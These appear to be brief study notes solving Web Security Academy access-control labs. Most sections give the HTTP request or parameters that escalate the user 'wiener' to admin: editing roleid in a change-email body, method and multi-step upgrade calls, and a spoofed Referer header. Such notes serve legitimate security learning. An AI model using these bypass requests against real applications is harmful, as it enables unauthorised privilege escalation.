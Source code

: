 ____

# User role can be modified in user profile

```
POST /my-account/change-email

{"email":"test@test.com",
"roleid":2
}
```

# URL-based access control can be circumvented

![[Pasted image 20240912095009.png]]

# Method-based access control can be circumvented

```
username=wiener&action=upgrade
```

# Multi-step process with no access control on one step

```
action=upgrade&confirmed=true&username=wiener
```

# Referer-based access control

```
GET /admin-roles?username=wiener&action=upgrade
Referer: https://0a3400e304aaf37c805efd3c00a200de.web-security-academy.net/admin
```